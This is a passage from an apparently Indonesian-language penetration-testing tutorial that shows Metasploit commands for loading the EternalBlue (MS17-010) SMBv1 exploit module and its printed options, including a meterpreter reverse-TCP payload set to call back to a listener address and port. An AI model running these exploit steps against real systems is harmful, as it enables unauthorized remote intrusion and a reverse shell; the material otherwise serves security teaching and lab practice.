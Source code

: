    ```
   ```
   back
   ```

2. Gunakan Modul `exploit/windows/smb/ms17_010_eternalblue` Untuk Mengekploitasi Kerentanan SMBv1 (EternalBLue):

   ```
   use exploit/windows/smb/ms17_010_eternalblue
   ```

3. Lihat Opsi Konfigurasi:

   ```
   show options
   ```

   Hasil output-nya seperti ini:

   ```
   msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

   Module options (exploit/windows/smb/ms17_010_eternalblue):

      Name           Current Setting  Required  Description
      ----           ---------------  --------  -----------
      RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                                tml
      RPORT          445              yes       The target port (TCP)
      SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windo
                                                ws 7, Windows Embedded Standard 7 target machines.
      SMBPass                         no        (Optional) The password for the specified username
      SMBUser                         no        (Optional) The username to authenticate as
      VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7
                                                , Windows Embedded Standard 7 target machines.
      VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows
                                                Embedded Standard 7 target machines.


   Payload options (windows/x64/meterpreter/reverse_tcp):

      Name      Current Setting  Required  Description
      ----      ---------------  --------  -----------
      EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
      LHOST     192.168.1.42     yes       The listen address (an interface may be specified)
      LPORT     4444             yes       The listen port


   Exploit target:

      Id  Name
      --  ----
      0   Automatic Target
